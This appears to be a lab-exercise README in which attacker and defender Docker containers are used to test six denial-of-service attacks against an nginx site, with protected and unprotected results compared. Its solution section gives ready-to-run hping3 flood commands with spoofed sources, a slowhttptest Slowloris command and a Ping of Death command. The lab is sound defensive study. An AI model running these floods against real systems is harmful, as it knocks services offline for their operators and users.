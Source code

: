 # DDoS

Setup two docker containers:

attacker container - there you need to write scripts that will implement 6 attacks

- HTTP flood
- UDP Flood
- ICMP flood
- Slowloris
- SYN flood
- Ping of Death

Defender container - ubuntu & nginx with simple website

Try to implement protection on Defender container

Launch attacker scripts and examine you protection

# Solution

### HTTP flood

`hping3 --rand-source --flood [TARGET IP] -p [TARGET PORT]`

| Protected                           | Unprotected                                                       |
| ----------------------------------- | ----------------------------------------------------------------- |
| Blocked by max connection derective | Accept all requests, so connections, CPU, RAM, etc. was increased |

![http-flood-unprotected](./assets/http-flood-unprotected.png)

### UDP flood

`hping3 --rand-source --udp --flood [TARGET IP] -p [TARGET PORT]`

| Protected       | Unprotected     |
| --------------- | --------------- |
| Accept requests | Accept requests |

![udp-flood](./assets/udp-flood.png)

### ICMP Flood

`hping3 --rand-source -1 --flood [TARGET IP] -p [TARGET PORT]`

| Protected (disabled icmp) | Unprotected                              |
| ------------------------- | ---------------------------------------- |
| Blocked all ping requests | Accept all. CPU, RAM, etc. was increased |

### Slowloris

`slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u [TARGET] -x 24 -p 3`

| Protected                                 | Unprotected                     |
| ----------------------------------------- | ------------------------------- |
| Connections close automatically after 10s | Accept and wait all connections |

#### Protected

```
slow HTTP test status on 10th second:

initializing:        0
pending:             0
connected:           236
error:               0
closed:              764
service available:   YES
```

#### Unprotected

```
slow HTTP test status on 65th second:

initializing:        0
pending:             0
connected:           203
error:               0
closed:              797
service available:   YES
```

![slowloris-unprotected](./assets/slowloris-unprotected.png)

### SYN flood

`hping3 --rand-source -S -q -n --flood [TARGET IP] -p [TARGET PORT]`

| Protected                                 | Unprotected                     |
| ----------------------------------------- | ------------------------------- |
| Connections close automatically after 10s | Accept and wait all connections |

### Ping of Death

`ping -l 65710 somesite.com`

| Protected (disabled icmp) | Unprotected                              |
| ------------------------- | ---------------------------------------- |
| Blocked all ping requests | Accept all. CPU, RAM, etc. was increased |
